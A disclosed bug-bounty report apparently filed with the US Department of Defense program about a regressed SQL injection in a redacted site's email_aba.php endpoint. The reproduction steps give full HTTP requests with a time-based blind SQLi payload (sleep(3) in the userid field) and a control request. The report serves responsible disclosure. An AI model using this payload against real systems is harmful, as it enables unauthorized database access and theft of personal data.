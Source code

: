 # Code reversion allowing SQLI again in ███████

## Report Details
- **Report ID**: 348047
- **URL**: https://hackerone.com/reports/348047
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-05-07T00:00:45.335Z
- **Disclosed**: 2019-10-08T18:49:20.686Z

## Reporter
- **Username**: alyssa_herrera
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
I just noticed that my publicly disclosed report, https://hackerone.com/reports/311922 is sstill vulnerable either a code reversion was made or something was done to revert the patch. Additionally I'd please request that the images in the report to be censored or redacted as it's been made vulnerable again.
**Description:**
A code reversion made a previously patched sql injection vulnerable, allowing attackers to once again attack and access the back end DB. 
## Impact
High
## Step-by-step Reproduction Instructions

POST /elist/email_aba.php HTTP/1.1
Host: ████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://█████/
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Cookie: OAMAuthnHintCookie=0@1517649796; TS01166aa9=01caaf3a630ce6defa1b153492b912f5f19f77c7731c0b860a649ade64c8b998a2227a4ae08ffa824957ddb7a4d434ec99039bc515480c43c91adc79831b92a6c4668a4efd; PHPSESSID=1dc251336b401258c094229326d3d955
Connection: close
Upgrade-Insecure-Requests: 1

lname=S&userid=admin'%2b(select*from(select(sleep(3)))a)%2b'&pw=admin

vs 

POST /elist/email_aba.php HTTP/1.1
Host: █████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://████████/
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Cookie: OAMAuthnHintCookie=0@1517649796; TS01166aa9=01caaf3a630ce6defa1b153492b912f5f19f77c7731c0b860a649ade64c8b998a2227a4ae08ffa824957ddb7a4d434ec99039bc515480c43c91adc79831b92a6c4668a4efd; PHPSESSID=1dc251336b401258c094229326d3d955
Connection: close
Upgrade-Insecure-Requests: 1

lname=S&userid=admin'%2b(select*from(select(sleep(0)))a)%2b'&pw=admin

## Product, Version, and Configuration (If applicable)
N/a
## Suggested Mitigation/Remediation Actions
Take down subdomain if not needed any more

## Impact

Access database information, steal sensitive PII or information

The hacker selected the **SQL Injection** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**Verified**
Yes

**What exploitation technique did you utilize?**
Time delay

**Please describe the results of your verification attempt.**
Observed time delays when using sleep comands



## Attachments
No attachments
